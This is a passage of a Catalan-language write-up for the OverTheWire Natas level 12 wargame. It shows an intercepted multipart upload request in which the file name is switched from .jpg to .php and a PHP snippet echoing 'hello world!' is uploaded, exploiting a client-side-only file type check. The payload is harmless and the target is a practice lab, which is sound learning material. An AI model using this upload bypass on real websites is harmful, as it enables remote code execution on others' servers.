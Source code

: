 ````

Origin: http://natas12.natas.labs.overthewire.org

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzJD8UIUOdPNnAVWd

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://natas12.natas.labs.overthewire.org/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: _ga=GA1.1.627158546.1708100915; _ga_RD0K2239G0=GS1.1.1708100914.1.1.1708100926.0.0.0

Connection: close

------WebKitFormBoundaryzJD8UIUOdPNnAVWd

  

Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000

------WebKitFormBoundaryzJD8UIUOdPNnAVWd

Content-Disposition: form-data; name="filename"

xq6qamzrfv.jpg CANVIEM AQUEST .JPG PER .PHP.

------WebKitFormBoundaryzJD8UIUOdPNnAVWd

Content-Disposition: form-data; name="uploadedfile"; filename="image.jpg"

Content-Type: image/jpeg`
```



``<? echo ('hello world!') ?>``

  
``------WebKitFormBoundaryzJD8UIUOdPNnAVWd--``


I ara podem veure el hello world:


![image](https://github.com/PolMuri/OverTheWire---Natas/assets/109922379/576b9157-730a-4a38-9671-75368246fa22)
 

hello world!


Al moment del enviament com que ja ha verificat que çés un jpg, ja no ho torna a verificar i si interceptem la petició podem modificar-ho.

````